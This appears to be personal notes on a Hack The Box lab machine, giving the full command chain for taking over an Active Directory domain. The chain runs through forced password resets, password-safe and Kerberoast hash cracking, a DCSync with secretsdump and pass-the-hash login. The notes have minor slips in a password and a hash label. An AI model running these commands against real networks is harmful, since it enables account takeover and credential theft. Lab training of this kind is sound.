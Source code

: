 
# Nmap Scan

![[Pasted image 20250518205830.png]]

- Domain: administrator.htb0
- realized there is FTP

# Edit etc/host

```
10.129.198.235 DC DC.administrator.htb administrator.htb
```

# Smb, winrm scans

Check FTP
>nxc ftp administrator.htb -u Olivia -p ichliebedich

- in NMAP scan we saw **FTP** being there, so ODD an ADMIN like OLIVIA cant get access to FTP, something to look out for!

Check winrm

>nxc winrm administrator.htb -u Olivia -p ichliebedich

Check SMB

> nxc smb administrator.htb -u "olivia" -p "ichliebedich"

- will provide us list of users
![[Pasted image 20250518210836.png|SMB user list]]
# Bloodhound

> bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.129.198.235

- can run bloodhound python FROM OUR MACHINE
- return us bunch of **json**, to be ingested in bloodhound

#### look for outbound object for OLIVIA in bloodhound

##### check OLIVIA node info

![[Pasted image 20250518211336.png|Olivia has genericAll for Michael]]

- oblivia@administrator.htb has ***GenericAll*** for Michael@administrator.htb

 > google how to ABUSE GenericAll

##### check MICHAEL node info

![[Pasted image 20250518211526.png|Michael has ForceChangePassword for Benjamin]]
- michael has ***ForceChangePassword*** for benjamin@administrator.htb

# Going from OLIVIA -> MICHAEL

## BloodyAD: Update Password for Michael

> bloodyAD -u 'olivia' -p 'ichliebedich' -d 'administrator.htb' --host '10.129.198.235' set password 'Michael' 'Password123'

![[Pasted image 20250518212004.png|Password changed successfully for Michael|600]]
![[Pasted image 20250518212107.png|Michael PAWNED|600]]
## BloodyAD: Update Password for Benjamin using Michael

> bloodyAD -u 'Michael' -p 'Password123' -d 'administrator.htb' --host '10.129.198.235' set password 'Benjamin' 'Password123'


# Revisit FTP with New Creds, Benjamin

>nxc ftp administrator.htb -u Benjamin -p Password123

**Enter FTP**

> ftp administrator.htb
> Benjamin
> (enter password)

![[Pasted image 20250518214117.png|FTP accessed by Benjamin]]
**Get the Backup file**

> get Backup.psafe3

Backup file is **Password protected**

# Pwsafe2John: Crack the Backup.psafe3

> pwsafe2john Backup.psafe3

![[Pasted image 20250518215738.png|Hash from pwsafe2john]]
save the hash in text file, ***hash.txt***
![[Pasted image 20250518215815.png|Hash saved in hash.txt]]
# John the Ripper to Crack Hash

> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

password got: tekieromucho

## Install passwordsafe to read pwsafe file

> sudo dpkg -i passwordsafe-debian12-1.21-amd64.deb

open the backupfile using passwordsafe

> pwsafe Backup.psafe3

- enter the password, tekieromucho

![[Pasted image 20250518220315.png|Multiple username and passwords in Password Safe]]
- save the username, password to your note

# Get in evil-winrm with the new names/creds

> evil-winrm -i administrator.htb -u emily -p <emilys_password>

#### First Flag

***First Flag*** in C:\Users\emily\Desktop\user.txt

# BloodHound: Emily's Node info

#### Outbound Object for Emily: Ethan@Administrator.Htb
- Emily has GenericWrite over Ethan
- since Emily has GenericWrite on Ethan, we can do **targeted kerberoasting attack**

### Download targetedKerberoast.py

> python targetedKerberoast.py -u 'emily' -p <emilys_password> -d 'administrator.htb' --dc-ip:10.129.198.235

### Ran into TIME ISSUE

![[Pasted image 20250519011210.png|Time Issue when Running targetedKerberoast.py]]
#### Update NT

> sudo ntpdate administrator.htb

rerun targetedKerberoast.py

we get **hash for ETHAN**
- save it to `ethan.txt`

### JohnTheRipper: crack password for ethan.txt

> john --wordlist=/usr/share/wordlists/rockyou.txt ethan.txt

- got the password: **limpbizkit**

Got **ACCESS to ETHAN**

### OUTBOUND for ETHAN in BloodHound: First Degree Obj Control

- we have ***DCSYNC*** to Administrator.htb
- also have ***GetChanges & GetChangesAll*** for DCSync Attack

#### use SECRETS DUMP from impacket

> impacket-secretsdump "Administrator.htb/ethan:limpkizkit"@"dc.Administrator.htb"

got the ***ADMINISTRATOR HASH***

![[Pasted image 20250519012111.png|NTLM Hash for Administrator]]
#### use Evil-WinRM to login as ADMIN

> evil-winrm -i administrator.htb -u administrator -H <NTLM_hash_for_ethan>

- **Second flag** in C:\Users\Administrator\Desktop\root.txt

